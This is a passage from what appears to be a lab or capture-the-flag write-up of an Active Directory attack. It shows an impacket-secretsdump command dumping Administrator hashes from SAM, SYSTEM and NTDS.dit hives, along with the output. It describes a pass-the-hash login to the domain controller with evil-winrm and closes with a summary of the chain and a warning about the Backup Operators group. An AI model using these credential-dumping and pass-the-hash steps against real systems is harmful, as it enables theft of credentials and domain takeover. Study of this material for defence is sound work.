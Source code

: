 ## Dumping hashes

Let's download the three files onto the attacker machine using `evil-winrm's` *download* so we can use `impacket-secretsdump` and dump all the *hashes*&#x20;

```
impacket-secretsdump -sam sam.hive -system system.hive -ntds ntds.dit LOCAL | grep Administrator
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:x:::
Administrator:aes256-cts-hmac-sha1-96:ad08cbabedff5acb70049bef721524a23375708cadefcb788704ba00926944f4
Administrator:aes128-cts-hmac-sha1-96:ac7aa518b36d5ea26de83c8d6aa6714d
Administrator:des-cbc-md5:d38cb994ae806b97
```

We know the second one it's the correct domain *Administrator* user so we will use the hash and `PtH` using `evil-winrm` to the *DC*, this time with the *Administrator* user

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2F421uXpT20xsG0ZCvntXv%2Fimage.png?alt=media&#x26;token=f3048525-232b-4947-b969-3072a6608df7" alt=""><figcaption></figcaption></figure>

### Conclusion

This attack chain demonstrates a classic Active Directory privilege escalation:

1. **Initial Access**: Password spray → Password reset → `WinRM` access
2. **Privilege Discovery**: Backup Operators group membership with `SeBackupPrivilege`
3. **Credential Extraction**: Shadow copy technique to dump `NTDS.dit`
4. **Domain Compromise**: Extract domain Administrator's *hash* for full domain control

The takeaway is that **Backup Operators** group membership is highly dangerous in *Active Directory environments*, as it allows attackers to extract the entire domain credential database through volume shadow copies, ultimately leading to complete domain compromise.
